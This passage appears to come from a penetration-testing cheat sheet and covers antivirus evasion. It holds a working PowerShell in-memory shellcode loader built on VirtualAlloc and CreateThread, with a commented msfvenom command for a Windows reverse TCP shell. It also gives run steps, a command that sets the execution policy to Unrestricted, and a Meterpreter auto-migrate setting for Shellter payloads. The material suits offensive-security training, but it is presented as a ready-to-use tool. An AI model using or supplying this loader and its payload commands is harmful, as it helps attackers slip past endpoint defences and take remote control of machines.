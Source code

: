 ```
```

## Anti virus bypass
There are 2 ways to do that: On-Disk Evasion and In-Memory Evasion 
This can be usefull to have latest: (github In-Memory Evasion)

### Powershell (in memory)
The following code should be copy and customized in a ps1 shell file 
```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc =Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>; #msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f powershell

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

And run as followed 
`
powershell .\av_shell.ps1
`

If there is execution policy issue (cannot be loaded because running scripts is disabled on this), run in powershell 
`
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
`

### Shellter
After running meterpreter console,
`
set AutoRunScript post/windows/manage/migrate
`
Just after use exploit/multi/handler
